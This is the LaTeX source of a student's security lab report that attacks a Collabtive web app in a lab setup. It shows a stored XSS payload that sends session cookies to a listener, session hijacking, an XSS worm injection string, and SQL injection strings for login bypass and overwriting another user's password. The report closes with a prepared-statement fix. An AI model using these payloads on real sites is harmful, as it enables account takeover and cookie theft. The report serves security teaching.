% Bradford Smith (bsmith8)
% CS 577 Lab 6 detailed_report.tex
% 10/29/2015
% "I pledge my honor that I have abided by the Stevens Honor System."
%===============================================================================

% document global styles
\documentclass[11pt, letterpaper]{article}
\usepackage[letterpaper, margin=0.5in]{geometry}
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage{tgbonum} %default font is Tex Gyre Bonum
\usepackage{textcomp}
\usepackage{listings} %for formatted code blocks
\usepackage{color}
\usepackage{graphicx} %for inserting pictures
% use: \includegraphics[scale=<N>]{<png filename>}
\graphicspath{{screenshots/}}
\usepackage{microtype} %tweaks spaces so words break less
\pagestyle{empty}
\setlength{\tabcolsep}{0em}

\lstdefinestyle{customSQL}{%
    backgroundcolor=\color{white},
    basicstyle=\footnotesize,
    breakatwhitespace=false,
    breaklines=true,
    captionpos=b,
    commentstyle=\color{green},
    keywordstyle=\color{blue},
    otherkeywords={REFERENCES},
    language=SQL,
    numbers=left,
    rulecolor=\color{black},
    frame=single,
    frame=L,
    keepspaces=true,
    moredelim=[is][\underbar]{__}{__}
}

% macro functions ==============================================================
\newcommand{\myheader}[2]
{\noindent{Bradford Smith (bsmith8)}\\
    #1 \\
    #2 \\
    \textit{``I pledge my honor that I have abided by the Stevens Honor System.''}\\
}

% simple inline code formatting (use typewriter font)
\newcommand{\code}[1]{\texttt{#1}}
%===============================================================================

% document starts here =========================================================
\begin{document}
\myheader{CS 577 Lab 6}{10/29/2015}
\begin{itemize}
    \item[1 ]\textbf{Cookies}
        \begin{itemize}
            \item[1.1 ]\textbf{Stealing the User's Cookie}\\
                The User profile field ``Company'' was found to be vulnerable to a JavaScript injection attack. The string I used to get the user's session id cookie was \code{<script>document.write(`<img src=http://127.0.0.1:8000/?id=' + document.cookie + `/>');</script>} which I put in the ``Company'' field for the user ``ted''. This sends the user's cookie as a GET parameter to the localhost port 8000, which can be retrieved using \code{nc -l 8000}.
            \item[1.2 ]\textbf{Session Hijacking}\\
                First I used the \code{LiveHTTPHeaders} extension to capture the HTTP request which creates a project.\\
       
\includegraphics[scale=0.5]{session-hijack-screenshot1}\\
       Then I created \code{code/session-hijack.js} (included in this submission) to construct a matching header and send it to the appropriate host. To run the attack one must capture a victim's cookie using the method in 1.1 and paste the \code{PHPSESSID=} line into the JavaScript program's variable ``myCookie'', I also created a small \code{code/session-hijack.html} file (also included) which just loads the JavaScript in order to make running the attack easy.\\
       \\When run this attack creates a new project called ``Evil\_Project'' and assigns all users (that existed as of writing the attack) to it.
       \end{itemize}
       \bigskip
    \item[2 ]\textbf{XSS Worm}\\
        For the worm I started with the XSS session hijack code and made it self-contained by getting the user's cookie directly in the script itself. I also used \code{PeriodicalUpdater} to get the user's name and copied the worm to the root of the website (\code{/var/www/XSS/Collabtive/}). I was then able to inject the worm into the ``Company'' field in the edit user form with the string \code{<script type='text/javascript' src='worm.js'></script>}. To propagate the worm copies in this string each time it attacks a user. The code I wrote for the worm is included at \code{code/worm.js}.
        \bigskip
    \item[3 ]\textbf{SQL Injections}
        \begin{itemize}
            \item[3.1 ]\textbf{Disabling SQL Injection Prevention}\\
                Edited \code{/etc/php5/apache2/php.ini} so that the value of \code{magic\_quotes\_gpc} was set to ``Off'' instead of ``On'' and restarted the Apache server with \code{sudo service apache2 restart}.
            \item[3.2 ]\textbf{SQL Injection Attack on \code{SELECT} Statements}\\
                Logging into another user's account: this can be achieved by using the input format \code{<username or email>'); \# '} -- e.g. \code{admin'); \# '} will log you in as ``admin''. This works because the single quote followed by the parentheses and semicolon end the SQL query and then the rest of the query (which is supposed to check the password) gets commented out by the hash followed by the space, which means you can type anything or nothing in the password field and still get in.\\
                \\Modifying the database: this does not seem to be possible. I tried using \code{admin') AND UPDATE user SET pass='pass' WHERE name='admin'; \# '} and \code{admin'); UPDATE user SET pass='pass' WHERE name='admin'; \# '} both of which did not produce the desired result. I was not able to find my own ``first-hand'' evidence but a quick search found \\\code{http://www.secure.php.net/manual/en/function.mysql-query.php}\\which mentions that ``multiple queries are not supported''.
            \item[3.3 ]\textbf{SQL Injection Attack on \code{UPDATE} Statements}\\
                It was determined that the target's id is 4 by way of guess and check. I found that the database stores the passwords in unsalted sha1 format by searching through the code at \code{/var/www/SQL/Collabtive/include/class.user.php}. Then as user ``alice'' the edit profile for was filled out as such:\\
                
\includegraphics[scale=0.5]{sql-inject-screenshot1}\\
                The value in the ``Company'' field was: \\\code{PwnZ0n3', pass='7110eda4d09e062aa5e4a390b0a572ac0d2c0220' WHERE ID = 4; \# '} where \\\code{7110eda4d09e062aa5e4a390b0a572ac0d2c0220} is the sha1 of ``1234''. After submitting this we can successfully log in as user ``ted'' with password ``1234'', and viewing his profile shows us:\\
                
\includegraphics[scale=0.5]{sql-inject-screenshot2}\\
            \item[3.4 ]\textbf{Countermeasures}\\
                The code I fixed with the prepare statement is included at \code{code/class.user-fixed.php} and a snippet of just the fixed section is included at \code{code/collabtive-fixed-section.txt}.
        \end{itemize}
\end{itemize}
\end{document}
